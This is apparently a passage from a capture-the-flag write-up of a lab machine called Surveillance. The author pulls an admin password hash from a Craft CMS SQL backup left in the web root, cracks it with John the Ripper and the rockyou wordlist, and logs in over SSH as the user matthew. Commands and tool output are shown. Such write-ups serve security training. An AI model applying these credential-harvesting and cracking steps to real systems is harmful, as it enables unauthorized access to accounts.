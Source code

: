 ### Second hash inside backup

Machine has two `/home` directories for users `matthew` and `zoneminder`. As the first attempt of escalating privileges was not fruitful I started to explore the machine for other possible informations.

Interestingly, there is a file `surveillance--2023-10-17-202801--v4.4.14.sql.zip` stored in `/var/www/html/craft/storage/backups`.
The unzipped file is a set of queries that looks like a backup script and it contains some very interesting information about previously discovered user Matthew:


```bash
... SNIP...

--
-- Dumping data for table `users`
--
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
set autocommit=0;
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed********************************************************70ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
commit;

... SNIP ...
```

Apperantly, Matthew is the admin of the webpage. Which means that the discovered hash inserted into backup table could be a valid password. This time password cracking was a success:

```bash
> john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***************  (?)  
1g 0:00:00:00 DONE (2024-03-14 14:15) 3.448g/s 12429Kp/s 12429Kc/s 12429KC/s stefon23..sozardme
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 

```

And the password was a valid one:

```bash
> ssh matthew@10.10.11.245
matthew@10.10.11.245's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 14 03:16:19 PM UTC 2024

  System load:  0.1923828125      Processes:             228
  Usage of /:   84.2% of 5.91GB   Users logged in:       1
  Memory usage: 12%               IPv4 address for eth0: 10.10.11.245
  Swap usage:   0%

```